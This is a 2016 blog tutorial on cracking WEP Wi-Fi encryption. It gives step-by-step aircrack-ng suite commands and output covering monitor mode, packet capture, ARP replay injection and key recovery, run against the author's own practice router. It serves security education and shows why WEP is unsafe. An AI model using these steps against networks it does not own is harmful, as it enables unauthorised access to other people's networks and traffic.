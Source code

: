 ```yaml
---
layout:     post
title:      "Wireless Security"
subtitle:   "WEP Hacking"
date:       2016-09-25 2:00:00
author:     "W3ndige"
header-img: "img/wireless-security-wep-header.jpg"
permalink: /:title/
category: Networking
---
```


<h1>Introduction</h1>

<p>Wired Equivalent Privacy (WEP) was introduced in 1999 as a part of 802.11 standard. It's puprose was to assure the privacy of the wireless network in a way near to wired networks. It's using RC4 cipher (with different key size: 64 and 128 bits) and CRC-32 checksum to mantain integrity. In addition WEP is using a short, 24 bit initialization vector (IV), which is added to the key provided by user, creating 'unique' for each packet RC4 key. But because the IV is so short, and it's used with the same key, WEP is now considered outdated, easy to crack and insecure.  </p>

![wep-crypto](/img/wireless-security-wep/wep-crypto.png){:class="img-responsive"}


<h1>Step by step attack</h1>

<p>Firstly we need to setup an old router, with WEP security option enabled, which will be our practice target. Also remember to have some other device connected to it wirelessly since we'll need to capture encrypted data between them. After that check whether or not your wireless card supports packet injection - if not, you have to get another one. I'm using TL-WN722N which is great and cheap option. Now, if you have everything up and running - let's move to Kali. </p>

<p>Firstly let's check if your adapter is seen by Kali - you can do this by typing <b>airmon-ng</b> command. </p>

{% highlight bash %}
root@kali:~# airmon-ng

PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n
{% endhighlight %}

<p>For me it shows two cards - built in and USB one which is <b>wlan1</b></p>

<p>Now type <b>airmon-ng start [interface]</b> to set your USB adapter into monitor mode. If you encounter any problem try using <b>airmon-ng check kill</b> which will kill any processes using this adapter. After that I checked what name was assigned to the adapter - for me it was <b>wlan1mon</b> but yours can be different. </p>
{% highlight bash %}
root@kali:~# airmon-ng start wlan1


PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n

		(mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
		(mac80211 station mode vif disabled for [phy1]wlan1)

root@kali:~# ifconfig
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 0  (Local Loopback)
        RX packets 2200  bytes 150212 (146.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2200  bytes 150212 (146.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan1mon: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec F4-F2-6D-1A-99-ED-00-00-00-00-00-00-00-00-00-00  txqueuelen 1000
{% endhighlight %}

<p>Next step is to find the router - and get it's BSSID, channel (CH) and ESSID. You can do this by running command <b>airodump-ng [interface]</b>. This will show list of routers in range, information we need and some additional data. </p>

{% highlight bash %}
root@kali:~# airodump-ng wlan1mon
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 18:21:95:90:46:45  -86        2        0    0   1  54e. WPA2 CCMP   PSK  AndroidAP                                                                  
 54:B8:0A:10:DF:0E  -42       34        0    0   1  54e  WEP  WEP         pentest_wep                                                                
 D2:AE:EC:CE:DB:3B  -76       10        0    0   1  54e  WPA2 CCMP   PSK  DIRECT-mi pass-PHILIPS TV                                                  


 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                            

 00:27:22:2A:9C:0E  00:27:22:06:83:C3  -83    0 - 0     50       49                                                                                   
 C4:27:95:75:3E:45  10:30:47:E3:43:F5  -67    0 -11e     0        2  
{% endhighlight %}


<p>Here it is, we've got all information to start the attack. My target is <b>pentest_wep</b> with BSSID:<b>54:B8:0A:10:DF:0E</b> on channel <b>1</b>. Copy the essential information and open another terminal window (CTR + ALT + T). Now we're going to capture encrypted packets sent between the router and client device. We can do this with airodump-ng command. </p>

{% highlight bash %}
root@kali:~# airodump-ng -w pentest_wep -c 1 --bssid 54:B8:0A:10:DF:0 wlan1mon
{% endhighlight %}

<p>Explanation: <b>-w</b> will save the packets to the file called pentest_wep, <b>-c</b> is a channel that the target is using, and <b>--bssid</b> is to specify which router we're going to attack. Last thing is to choose the USB adapter running monitor mode.</p>

<p>That's what we're going to be shown after running this command. </p>

{% highlight bash %}
CH  1 ][ Elapsed: 32 s ][ 20016-09-25 10:16                                         

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                    

54:B8:0A:10:DF:0E  218 100      312     1927  223   1  54 . WEP  WEP         pentest_wep              

BSSID              STATION            PWR   Rate   Lost  Packets  Probe                               

00:A0:37:C3:D1:CB  06:19:E0:88:6A:4C  170   0-24   1005       16    
{% endhighlight %}

<p>As you can see we've got a few more information - number of beacons, data sent, packets, and data per second. These numbers will start at 0 and grow as the traffic is passed between the router and client device. Then this traffic is saved into the file, specified in the command argument, which we're going to use later in order to crack the password. But to make it work you will need at least 20,000 IV's, sometimes even more. I recommend you to 'harvest' around 100,000 as it will undoubtedly work. At this point you can wait until you get desired number of IV's. But what if the target isn't using internet at the time? What if he/she's sleeping? Yup, there's solution to this ;)</p>


<p>Open up another terminal window (remember not to close the one running airodump-ng) and type in this command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -1 0 -a 54:B8:0A:10:DF:0E wlan1mon
No source MAC (-h) specified. Using the device MAC (F4:F2:6D:1A:99:ED)
08:05:38  Waiting for beacon frame (BSSID: 54:B8:0A:10:DF:0E) on channel 1

08:05:38  Sending Authentication Request (Open System) [ACK]
08:05:38  Authentication successful
08:05:38  Sending Association Request [ACK]
08:05:38  Association successful :-) (AID: 1)
{% endhighlight %}

<p>After that run another command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -3 -b 54:B8:0A:10:DF:0E wlan1mon
{% endhighlight %}

<p>Aireplay-ng works by sending ARP request packets so that data and beacons should start growing quickly. This works even if no one is connected to the internet. </p>


<p>Now after we've already captured huge amount of packets close all the processes that were running, then type <b>ls</b> to see if the .cap file was saved. Then we can type <b>aircrack-ng [filename.cap]</b>. This will start the process of cracking the password. Attack will be restarted between every 5000 IV's. </p>

{% highlight bash %}
root@kali:~# aircrack-ng pentest_wep-01.cap
Opening pentest_wep-01.cap
Read 1894984 packets.

   #  BSSID              ESSID                     Encryption

   1  54:B8:0A:10:DF:0E  pentest_wep               WEP (9651 IVs)

Choosing first network as target.

Opening pentest_wep-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 9651 ivs.


                                 Aircrack-ng 1.2 rc3


                 [00:32:05] Tested 1972 keys (got 24276 IVs)

   KB    depth   byte(vote)
    0    4/  8   42(30720) 30(29696) B0(29696) 68(29184) 0E(28160)
    1    0/  1   31(34304) 0A(30720) 0F(29952) 35(29952) E9(29952)
    2    2/  5   0F(29696) A1(29440) CA(29440) CB(28928) F7(28928)
    3    2/  6   68(30720) 15(30464) 89(29696) E1(29696) 5F(29184)
    4    8/  9   92(29696) 9C(28928) B5(28928) 64(28672) 8F(28672)

                     KEY FOUND! [ 42:31:57:68:92 ]
	Decrypted correctly: 100%
{% endhighlight %}

<p>And we've got the key! Some versions of aircrack may show you also ASCII version of the key but both can be used to login into the wireless network. Notice that you can run aircrack at the same time as running airodump - that way it tries to crack the key every time you gather new 5000 IV's. </p>

<p>Notice how easy it was to gain access to the network protected with WEP? That's why you should never protect your network with this standard. </p>

<p>As always thanks for reading, keep tuned for the next part about more advanced algorithms like WPA or WPA2. I also really recommend trying it out by yourself as it's the best way to understand how it works and learning by practicing is the best way to gain knowledge. </p>
